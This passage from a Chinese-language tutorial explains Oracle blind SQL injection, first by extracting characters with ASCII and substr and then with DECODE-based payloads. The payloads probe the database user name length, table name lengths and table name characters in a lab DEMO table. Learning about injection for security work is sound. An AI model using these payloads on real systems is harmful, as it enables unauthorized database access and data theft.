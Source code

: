 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlppUvMQrWchYWMmb4nfgmticslibxQ6D4yn0HH2u2BUHVRLN34fBc6X4A/640?wx_fmt=png)

接着获取第一个用户名 eastmount 的字符为 “e”。

```
1 and 101=((select ASCII(substr(CONCAT(NAME, AGE),1,1)) FROM DEMO  where rownum=1 ))--
```

依次获得 eastmount。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlHfYvbt7icH5CZiavianEXb5KPXQvyx8YB6LnKSTAExsNSRzmwT3BQYBiaQ/640?wx_fmt=png)

2.DECODE 函数盲注
-------------

Decode 的使用方法如下，当条件等于值 1 时就得到返回值 1。

*   decode(条件, 值 1, 返回值 1,
    
    值 2, 返回值 2,… 值 n, 返回值 n, 缺省值)
    

**第一步，获取信息。**  
SQL 语句如下：

```
select decode(length(user),9,1,0) from dual;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlenmVtFm3bru7GUPsPgvL7k20F09ZkXEqicicicY9ET4j2PPiacNvlGu6Ug/640?wx_fmt=png)

页面显示正常，说明用户长度是 9。

```
1 and 1=(select decode(length(user),9,1,0) from dual)--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlYtNJQXy5wvdiaIBG5CTGmNVX3Hs97oZccugJ0yTj7PmNgsasXRca1cQ/640?wx_fmt=png)

接下来可以使用 BP 爆破获取用户名。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlowkta9yfHyDnIRyVeaJMCER57yRicTPhNf1Zn21l0eLl65udBvD3QqA/640?wx_fmt=png)

**第二步，获取当前用户下的第一个表。**

```
1 and 1=(select decode(length(table_name),4,1,0) from user_tables where rownum=1)--
```

页面实现正常，说明表名长度是 4，对应应该是 DEMO。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlRGfQfuAq0rsJcr1OibVTPcicrc5u1sKAibMCnvmz1D5icHjDhkicaj9icazw/640?wx_fmt=png)

**第三步，猜解表名称。**

```
1 and  1=(select decode(ascii(substr(table_name,1,1)),68,1,0) from user_tables where rownum=1)--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlN518NrkMKwgzGmHb8iacq5MXw7YibGN8TCiah0QWO3k2lNQl9StKYIOSw/640?wx_fmt=png)
